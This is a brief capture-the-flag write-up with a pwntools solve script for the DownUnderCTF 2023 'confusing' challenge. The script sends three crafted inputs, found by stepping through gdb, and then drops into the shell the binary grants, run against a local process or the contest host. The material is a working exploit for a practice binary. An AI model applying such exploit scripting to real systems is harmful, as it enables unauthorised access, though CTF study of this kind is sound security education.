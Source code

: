 # confusing

This challenge needs three correct inputs and it gives us a shell. Originally, I tried to use `angr` to solve it but gave up on that and just stepped through `gdb` to figure out how the inputs were being handled in memory.

```python
from pwn import *
context.arch = "amd64"

# -1 and 13337
first = 0x12ffffffff3419
# GALF in ascii
second = 1195461702
# the large double
third = 0x3ff9e3779b9486e5

io = process("./confusing")
# io = remote("2023.ductf.dev", 30024)

if args.GDB:
	gdbscript="""
	b confusing.c:27
	c
	"""
	gdb.attach(io, gdbscript=gdbscript)

io.sendlineafter(b"d: ", str(first).encode())
io.sendlineafter(b"s: ", str(second).encode())
io.sendlineafter(b"f: ", p64(third))

io.interactive()
```